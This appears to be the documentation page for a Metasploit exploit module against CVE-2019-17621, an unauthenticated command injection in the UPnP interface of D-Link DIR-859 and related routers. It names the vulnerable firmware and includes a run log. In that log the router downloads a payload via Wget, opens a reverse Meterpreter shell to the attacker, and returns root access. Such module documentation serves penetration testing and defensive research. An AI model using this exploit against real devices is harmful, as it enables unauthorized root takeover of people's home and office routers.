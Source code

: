 ## Introduction

This module exploits CVE.2019-17621, a remote unauthenticated OS command injection in the UPnP API of the DIR-859 and other D-link SOHO routers via the `service` argument to the `gena.cgi` URL.

## Vulnerable Application

Get a D-Link DIR-859 router (or [any of the devices/firmware versions mentioned here](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10147)), or download firmware versions 1.06 or 1.05 and run them on firmadyne or similar emulation frameworks.

## Scenarios

```
msf5 exploit(linux/http/dlink_dir859_exec_telnet) > run 

[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Using URL: http://192.168.0.2:8080/r2hOQycyVvN2BP
[*] Client 192.168.0.1 (Wget) requested /r2hOQycyVvN2BP
[*] Sending payload to 192.168.0.1 (Wget)
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Meterpreter session 7 opened (192.168.0.2:4444 -> 192.168.0.1:54599) at 2020-01-10 11:36:52 -0300
[*] Server stopped.

meterpreter > getuid 
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo 
Computer     : 192.168.0.1
OS           :  (Linux 2.6.32.70)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter >
```
